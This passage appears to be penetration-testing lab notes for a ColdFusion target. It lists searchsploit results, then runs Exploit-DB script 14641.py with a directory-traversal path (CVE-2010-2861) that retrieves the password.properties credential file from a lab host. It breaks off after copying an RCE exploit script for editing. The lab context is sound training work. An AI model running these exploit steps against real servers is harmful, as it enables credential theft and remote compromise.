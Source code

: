 ```
ColdFusion MX - Missing Template Cross-Site Scripting                                                      | cfm/remote/21548.txt
ColdFusion MX - Remote Development Service                                                                 | windows/remote/50.pl
ColdFusion Scripts Red_Reservations - Database Disclosure                                                  | asp/webapps/7440.txt
ColdFusion Server 2.0/3.x/4.x - Administrator Login Password Denial of Service                             | multiple/dos/19996.txt
Macromedia ColdFusion MX 6.0 - Error Message Full Path Disclosure                                          | cfm/webapps/22544.txt
Macromedia ColdFusion MX 6.0 - Oversized Error Message Denial of Service                                   | multiple/dos/24013.txt
Macromedia ColdFusion MX 6.0 - Remote Development Service File Disclosure                                  | multiple/remote/22867.pl
Macromedia ColdFusion MX 6.0 - SQL Error Message Cross-Site Scripting                                      | cfm/webapps/23256.txt
Macromedia ColdFusion MX 6.1 - Template Handling Privilege Escalation                                      | multiple/remote/24654.txt
----------------------------------------------------------------------------------------------------------- ---------------------------------

```

We will try the Directory path traversal vulnerability

```
# We locate it
find / -name "*14641.py" 2>/dev/null

# We copy it to our current working directory
cp /usr/share/exploitdb/exploits/multiple/remote/14641.py .

python2 14641.py     

# Output: 
usage: 14641.py <host> <port> <file_path>
example: 14641.py localhost 80 ../../../../../../../lib/password.properties
if successful, the file will be printed

# As we can see, the contents of the password.properties file have been retrieved, proving that this target is vulnerable to CVE-2010-2861:
python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"


# Now we will exploit the RCE
searchsploit coldfusion | grep "RCE"

searchsploit -p 50057

cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py . 

nano 50057.py
```
